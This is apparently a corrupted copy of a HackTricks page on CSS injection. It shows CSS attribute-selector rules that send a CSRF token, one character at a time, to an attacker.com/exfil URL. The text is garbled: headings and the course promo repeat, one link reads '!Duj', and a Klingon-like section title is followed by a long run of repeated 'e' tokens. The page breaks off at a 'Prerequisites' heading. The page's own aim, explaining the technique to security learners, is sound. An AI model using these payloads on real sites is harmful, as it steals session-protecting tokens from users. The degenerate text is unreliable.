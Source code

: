 # CSS Injection

<details><summary><strong>Learn AWS hacking from zero to hero with</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary></details>

## CSS Injection

### Attribute Selector

CSS selectors are crafted to match values of an `input` element's `name` and `value` attributes. If the input element's value attribute starts with a specific character, a predefined external resource is loaded:

<details><summary><strong>htARTE (HackTricks AWS Red Team Expert)</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>!Duj</strong></a><strong>!</strong></summary></details>

## CSS Injection

### Attribute Selector

CSS selectors are crafted to match values of an `input` element's `name` and `value` attributes. If the input element's value attribute starts with a specific character, a predefined external resource is loaded:
```css
input[name=csrf][value^=a]{
background-image: url(https://attacker.com/exfil/a);
}
input[name=csrf][value^=b]{
background-image: url(https://attacker.com/exfil/b);
}
/* ... */
input[name=csrf][value^=9]{
background-image: url(https://attacker.com/exfil/9);
}
```
#### yIqImtaHvIS

vaj vItlhutlh 'e' vItlhutlh 'e' 'e' 'e' 'e' 'e' 'e' 'e' 'e' 'e' 'e' 'e' 'e' 'e' 'e' 'e' 'e' 'e' 'e' 'e' 'e' 'e' 'e' 'e' 'e' 'e' 'e' 'e' 'e' 'e' 'e' 'e' 'e' 'e' 'e' 'e' 'e' 'e' 'e' 'e' 'e' 'e' 'e' 'e' 'e' 'e' 'e' 'e' 'e' 'e' 'e' 'e' 'e' 'e' 'e' 'e' 'e' 'e' 'e' 'e' 'e' 'e' 'e' 'e' 'e' 'e' 'e' 'e' 'e' 'e' 'e' 'e' 'e' 'e' 'e' 'e' 'e' 'e' 'e' 'e' 'e' 'e' 'e' 'e' 'e' 'e' 'e' 'e' 'e' 'e' 'e' 'e' 'e' 'e' 'e' 'e' 'e' 'e' 'e' 'e' 'e' 'e
```css
input[name=csrf][value^=csrF] ~ * {
background-image: url(https://attacker.com/exfil/csrF);
}
```
#### Prerequisites for CSS Injection
